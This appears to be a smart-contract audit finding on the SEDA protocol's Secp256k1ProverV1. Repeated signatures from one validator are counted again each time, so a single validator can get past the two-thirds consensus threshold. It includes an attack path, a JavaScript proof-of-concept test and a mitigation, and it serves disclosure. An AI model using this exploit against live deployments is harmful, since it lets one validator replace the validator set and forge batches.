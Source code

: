 Custom Hazelnut Cricket

High

# Duplicate Signer Proof Allows Bypass of 2/3 Consensus

### Summary

The [`Secp256k1ProverV1`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L110-L120) contract does not enforce that each validator can only sign once per batch. Instead, it sums up the validator’s voting power each time their proof/signature pair is provided. This means a single validator can artificially inflate voting power to exceed the two-thirds threshold.


### Root Cause

The [`Secp256k1ProverV1`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L110-L120) contract does not enforce one-signature-per-validator per batch. It will credit the same validator’s voting power repeatedly if the same proof/signature is submitted multiple times.

### Internal Pre-conditions

The `deployer/owner` calls the initialize function which sets the [`lastValidatorsRoot`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L73) in the system.

### External Pre-conditions

None

### Attack Path

1. All validators sign a batch who are a part of a `lastValidatorsRoot` providing their signatures of the batch and the proof of the being in the `lastValidatorsRoot` merkle root.
2.  The contract has a public function `postBatch()` it utilizes these signatures and proofs of different validators.
3. Instead of utilizing all of these signatures and proofs of validators, a malicious validator can includes his proof and signature multiple times. (If his voting power is 5%, he includes it 14 times which bypasses the threshold of 66%).
4. The `postBatch()` successfully gets executed with arbitrary parameters undermining 2/3 mechanism.

### Impact

1. The entire reason for the 2/3 requirement is to ensure that a single validator cannot finalize state changes alone. If that same validator can just sign once and reuse that signature repeatedly, they effectively become the sole authority
2. A malicious validator can overwrite the `validatorsRoot` for the contract by calling `postBatch()` with his defined parameters essentially kicking out other validators.
3. A malicious validator can mine arbitrary amount of batches incrementing `batchHeight` which may not be intended.

### PoC

Add the following testcase in the file  `test/prover/Secp256k1ProverV1.test.ts` under `batch management`'s describe function.
```js
it('allows repeating the same validator multiple times, artificially inflating voting power', async () => {
      const { prover, wallets, data } = await loadFixture(deployProverFixture);

      const { newBatch, signatures } = await generateAndSignBatch(wallets, data.initialBatch, [0, 1, 2, 3]);
      // Repeat the same signature 4 times
      const repeatedSignatures = [
        signatures[1], 
        signatures[1], 
        signatures[1], 
        signatures[1], 
        signatures[1], 
        signatures[1], 
        signatures[1],
        signatures[1],
        signatures[1]
      ];

      // Repeat the same validator proof 4 times (assuming data.validatorProofs[1] corresponds to validator #1)
      const repeatedProofs = [
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
      ];

      await prover.postBatch(newBatch, repeatedSignatures, repeatedProofs);

      const lastBatchHeight = await prover.getLastBatchHeight();
      const lastValidatorsRoot = await prover.getLastValidatorsRoot();
      expect(lastBatchHeight).to.equal(newBatch.batchHeight);
      expect(lastValidatorsRoot).to.equal(newBatch.validatorsRoot);
  });
```

### Mitigation

Enforce that each `signer/validator` can only appear once in a single `postBatch()` call.